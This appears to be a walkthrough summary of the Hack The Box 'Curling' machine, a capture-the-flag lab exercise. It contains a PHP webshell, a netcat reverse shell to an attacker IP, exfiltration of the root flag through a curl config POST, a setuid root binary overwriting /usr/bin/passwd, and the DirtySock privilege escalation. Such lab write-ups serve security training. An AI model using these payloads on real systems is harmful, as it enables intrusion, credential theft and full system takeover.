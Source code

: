 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

---

### 🧭 Recon

**Nmap full TCP scan:**
```
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.150
```
Ports open:
- 22/tcp (SSH)
- 80/tcp (HTTP)

**Nmap scripts and version detection:**
```
nmap -p 22,80 -sV -sC -oA nmap/scripts 10.10.10.150
```
Identified:
- [Apache](HTTP) 2.4.29 (Ubuntu)
- [OpenSSH](SSH) 7.6p1
- Joomla CMS on port 80

---

### 🌐 Joomla Web Enumeration

- Default page has a Joomla site titled "Curling"
- HTML source hint: `<!-- secret.txt -->`
- Navigating to `/secret.txt` reveals base64: `Q3VybGluZzIwMTgh`
- Decoded: `Curling2018!`
- Admin panel at `/administrator`, login successful with:
  - **Username**: floris
  - **Password**: Curling2018!

---

### ⚙️ Shell as www-data

**Webshell via Template Injection:**
1. Go to Templates → Beez3 → New File → PHP
2. Create `sh3ll.php` with `<?php system($_GET['0xdf']); ?>`
3. Access: `http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=id`

**Interactive shell via reverse shell:**
```bash
http://10.10.10.150/templates/beez3/sh3ll.php?0xdf=cat%20/tmp/df%20|%20/bin/sh%20-i%202%3E%261%20|%20nc%2010.10.14.5%20443%20%3E%20/tmp/df
```
Listener:
```
nc -lnvp 443
```
User: `www-data`

---

### 📂 Privesc: www-data → floris

**Found in /home/floris/**:
- `password_backup`: hex-encoded multi-layer compressed file

**Extraction Process:**
1. Convert hex to binary: `xxd -r`
2. Unpack chain: `bunzip2` → `gunzip` → `bunzip2` → `tar`
3. Final file: `password.txt`

**Credentials:**
```
Username: floris
Password: 5d<wdCbdZu)|hChXll
```

Login:
```bash
su - floris
```

---

### 🔁 Privesc: floris → root

**Found folder**: `/home/floris/admin-area`

Files:
- `input`: curl config file
- `report`: output file

**pspy shows:**
```
curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```
Runs as root every minute.

**Exfil root flag via POST:**
```text
url = "http://10.10.14.5"
data = @/root/root.txt
```
Setup listener:
```
nc -nlvp 80
```

**Alternative:** Read directly from file:
```text
url = "file:///root/root.txt"
output = /tmp/.0xdf
```

---

### 🧨 Root Shell via Overwrite

Create a C program:
```c
void main() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", 0);
}
```
Compile:
```
gcc -o setuid setuid.c
```
Host on HTTP server, then:
```text
url = "http://10.10.14.5/setuid"
output = /usr/bin/passwd
```
When cron runs:
```
/usr/bin/passwd → root shell
```

---

### 🧪 Beyond Root: Dirty Sock Exploit

**snapd version**: vulnerable
```
snap version
```
Upload & run DirtySock:
```
python3 dirty_sockv2.py
```
New user created:
- **Username**: dirty_sock
- **Password**: dirty_sock

Root access:
```bash
su dirty_sock
sudo su
```

**Note**: Setuid scripts (like Python) don't elevate privileges on most Linux systems.


**Source**: https://0xdf.gitlab.io/2021/03/30/htb-curling.html

